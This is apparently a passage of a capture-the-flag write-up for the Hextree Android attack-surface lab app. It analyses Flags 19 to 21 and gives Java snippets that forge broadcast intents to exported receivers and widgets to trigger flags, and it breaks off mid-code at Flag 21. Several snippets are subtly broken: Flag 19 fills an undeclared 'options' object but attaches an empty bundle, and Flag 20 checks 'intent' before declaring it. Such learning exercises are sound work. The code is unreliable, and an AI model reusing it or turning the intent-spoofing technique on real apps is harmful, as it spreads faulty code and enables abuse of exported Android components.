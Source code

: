 Here the widget gets an intent from a broadcast and checks if there is an action `APPWIDGET_UPDATE` and is bundled with Extra data : i = `1094795585` & i2 = `322376503`

#### Solution
so we will create a `Bundle` object and supply it with data and set correct action  

```java
Intent intent  = new Intent();  
intent.setComponent(new ComponentName("io.hextree.attacksurface","io.hextree.attacksurface.receivers.Flag19Widget"  
));  
Bundle bundle = new Bundle();  
options.putInt("appWidgetMaxHeight", 1094795585);  
options.putInt("appWidgetMinHeight", 322376503);  
  
intent.putExtra("appWidgetOptions", bundle);  
intent.setAction("APPWIDGET_UPDATE");  
sendBroadcast(intent);
```

### Flag 20
#### Code analysis
```java
  public static String GET_FLAG = "io.hextree.broadcast.GET_FLAG";
  public void onCreate(Bundle bundle) {
		
		if (intent == null) { return; }
        Intent intent = getIntent();
        String action = intent.getAction();
        if (action != null && action.equals(GET_FLAG)) {
            success(this);
            return;
        }
        Flag20Receiver flag20Receiver = new Flag20Receiver();
        IntentFilter intentFilter = new IntentFilter(GET_FLAG);
        registerReceiver(flag20Receiver, intentFilter);
    }
```

This registers a receiver for action `"io.hextree.broadcast.GET_FLAG"` and upon getting non-empty intent with the action we get our Flag

#### Solution
```java
Intent intent = new Intent();  
intent.setAction("io.hextree.broadcast.GET_FLAG");  
intent.putExtra("give-flag", true);   // any data
sendBroadcast(intent);
```

### Flag 21
#### Code analysis
Notification part:
```java
// Notification channel creation
private void createNotificationChannel() {
	//Notifications need a "channel" (like a TV channel) to appear.
    NotificationChannel notificationChannel = new NotificationChannel(
        "CHANNEL_ID", // Unique ID for the channel
        "Hextree Notifications", // User-visible name
        NotificationManager.IMPORTANCE_DEFAULT // Importance level (affects sound & visibility)
    );
    notificationChannel.setDescription("Notifications related to security features.");
    
    // Actually create the channel
```